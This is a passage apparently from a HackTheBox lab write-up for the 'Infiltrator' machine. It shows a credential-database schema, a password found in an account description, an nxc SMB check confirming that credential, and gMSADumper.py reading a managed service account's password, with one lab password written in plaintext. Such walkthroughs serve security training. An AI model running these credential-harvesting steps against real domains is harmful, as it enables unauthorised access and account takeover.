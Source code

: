 ```bash
13|SPN|JSON|0||0
14|domain|INTEGER|0||0
15|UPN|TEXT|0||0
16|login|TEXT|0||0
17|samaccountname|TEXT|0||0
18|commonname|TEXT|0||0
19|encrypted_supplementalCredentials|BLOB|0||0
20|supplementalCredentials|JSON|0||0
21|encrypted_lmPwdHistory|BLOB|0||0
22|lmPwdHistory|JSON|0||0
23|encrypted_ntPwdHistory|BLOB|0||0
24|ntPwdHistory|JSON|0||0
25|accountExpires|INTEGER|0||0
26|UAC_flags|JSON|0||0
27|parent_OU|INTEGER|0||0
28|dn|TEXT|0||0
29|isDeleted|BOOLEAN|0||0
30|primaryGroup|INTEGER|0||0
31|memberOf|JSON|0||0
32|isDisabled|BOOLEAN|0||0
```

```bash
sqlite> select upn,description from user_accounts;

<SNIP>
lan_managment@infiltrator.htb|<REDACTED>
<SNIP>
```

The description for `lan_management` gives us another password

```bash
nxc smb dc01.infiltrator.htb -u lan_managment -p '<REDACTED>'

SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\lan_managment:<REDACTED>
```

And it is a valid credential

![NON](file-20250606022056534.png)

`lan_managment` user has `ReadGMSAPassword` permission over `infiltrator_svc$` user, which allows us to read the password of the user `infiltrator_svc$`. Using the tool `gMSADumper.py`:

```bash
gMSADumper.py -u lan_managment -p 'l@n_M@an!1331' -d infiltrator.htb
```

![NON](file-20250606022424758.png)

![NON](file-20250606022536819.png)
